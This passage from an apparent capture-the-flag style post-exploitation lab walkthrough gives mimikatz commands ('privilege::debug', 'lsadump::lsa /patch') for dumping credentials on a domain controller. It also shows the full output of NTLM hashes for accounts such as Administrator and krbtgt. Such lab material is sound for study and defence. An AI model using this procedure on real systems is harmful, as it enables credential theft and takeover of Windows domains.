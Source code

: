 2.) `privilege::debug` ensure that the output is “Privilege ‘20’ ok” - This ensures that you’re running mimikatz as an administrator; if you don’t run mimikatz as an administrator, mimikatz will not run properly.

![](2025-05-31-post-exploitation-basics-18.png)

3.) `lsadump::lsa /patch` Dump those hashes!

![](2025-05-31-post-exploitation-basics-19.png)

```
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2 
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 7bb0c59ff58520b2e3ef7d95d294b1a4

```